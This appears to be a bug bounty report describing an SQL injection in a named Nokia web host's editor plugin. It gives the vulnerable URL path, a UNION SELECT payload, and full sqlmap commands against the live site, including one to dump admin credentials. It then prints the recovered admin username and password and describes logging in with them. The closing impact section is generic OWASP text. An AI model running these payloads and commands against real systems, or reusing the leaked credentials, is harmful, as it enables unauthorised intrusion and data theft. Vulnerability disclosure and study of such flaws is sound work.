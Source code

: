 # SQL injection in https://gdclive.nokia.com - parent param

# Steps To Reproduce :
* Visit this Path `/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=`
* Add This Payload in parent param (`%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa`)
  #### Now you can see the version of database in url input
  
  <img src='src/nokiasql.png'>
  
## lets exploit it using `SQLMAP Tool`
##### Command : `$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-db --current-user`
<img src='src/sql1.png'>

`$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --all # for get the username and password of admins`

#### Booom - admin account
* username : 123456
* password : adminuser
<img src='src/oh.gif'>

#### So secure XD

### Try to login in
<img src='src/cp.jpg'>

#### pwned ^__^

# Impact :

##### A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Reference : https://www.owasp.org/index.php/Top_10-2017_A1-Injection

<img src='src/nokia_rep.png'>
